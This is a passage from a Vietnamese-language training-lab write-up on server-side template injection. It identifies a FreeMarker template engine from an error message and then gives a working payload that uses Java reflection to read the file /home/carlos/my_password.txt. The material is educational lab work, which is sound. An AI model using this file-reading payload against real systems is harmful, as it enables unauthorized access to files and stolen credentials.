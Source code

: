 Em xoá hết đi và thử với payload `${abc}` thì thấy thông báo lỗi xuất hiện:

![lab-6-3](images/lab-6/lab-6-3.png)

Từ đó, em xác định được template engine mà trang web đang sử dụng là FreeMarker.

Để đọc được nội dung của file `my_password.txt` em sử dụng payload `${product.getClass().getProtectionDomain().getCodeSource().getLocation().toURI().resolve('/home/carlos/my_password.txt').toURL().openStream().readAllBytes()?join(" ")}`:

![lab-6-4](images/lab-6/lab-6-4.png)